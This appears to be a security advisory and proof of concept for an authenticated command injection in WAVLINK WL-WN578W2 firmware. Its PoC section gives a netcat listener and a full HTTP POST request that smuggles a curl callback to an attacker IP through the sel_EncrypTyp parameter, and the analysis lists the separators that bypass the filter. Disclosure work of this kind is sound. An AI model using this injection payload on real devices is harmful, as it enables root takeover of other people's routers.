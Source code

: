 # WAVLINK WL-WN578W2 M78W2\_V221110 Authenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Authenticated access required**: Attackers need valid login credentials (e.g., username/password) to send requests to `/cgi-bin/adm.cgi`, but weak input filters can still be bypassed for command injection.

## Overview

An authenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). After logging in, attackers can exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions, then inject arbitrary system commands via the `sel_EncrypTyp` parameter. This enables execution of `root`-level commands, leading to full device compromise.



![Vulnerability Overview: Authenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, requires login)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Authenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: After login, execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify device configurations) via filter bypass.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    After logging in, attackers can use these allowed separators to bypass the filter and inject malicious commands.




#### 2. Command Injection Vector

After successful login, the `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`), which are executed with `root` privileges.

![Weak Filter Logic Snippet](./imgs/2.png)
![Weak Filter Logic Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC

#### 1. Prepare for Exploitation



*   Log in to the WAVLINK device via the web interface (e.g., `http://192.168.10.1`), use tools like Burp Suite to capture the login session cookie (e.g., `WAVLINK_SESSIONID=xxxx`).

*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Send  POST Request:



```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```




#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully (filter bypass and authenticated command injection work):



![Step 3: Netcat Captures Execution Result](./imgs/5.png)

